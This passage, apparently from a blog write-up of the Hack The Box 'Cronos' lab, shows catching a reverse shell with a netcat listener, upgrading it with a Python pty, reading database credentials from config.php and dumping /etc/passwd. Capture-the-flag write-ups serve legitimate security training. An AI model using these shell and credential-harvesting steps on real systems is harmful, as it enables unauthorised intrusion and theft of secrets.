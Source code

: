 <div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/cronos/inject.png" title="Inject" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Check the listener and catch the shell.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/cronos]
└─$ nc -nlvp 4444     
listening on [any] 4444 ...
connect to [10.10.16.12] from (UNKNOWN) [10.10.10.13] 59340
$ python -c 'import pty; pty.spawn("/bin/bash");'
python -c 'import pty; pty.spawn("/bin/bash");'
www-data@cronos:/var/www/admin$
```
{% endraw %}

<br />
Check the config.php file.  There are usually the database credentials in there.

{% raw %}
```php
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```
{% endraw %}

<br />
Get the /etc/passwd file to check out the system user.

{% raw %}
```bash
www-data@cronos:/var/www/admin$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash

<snip>

dnsmasq:x:110:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
noulis:x:1000:1000:Noulis Panoulis,,,:/home/noulis:/bin/bash
bind:x:112:119::/var/cache/bind:/bin/false
```
{% endraw %}
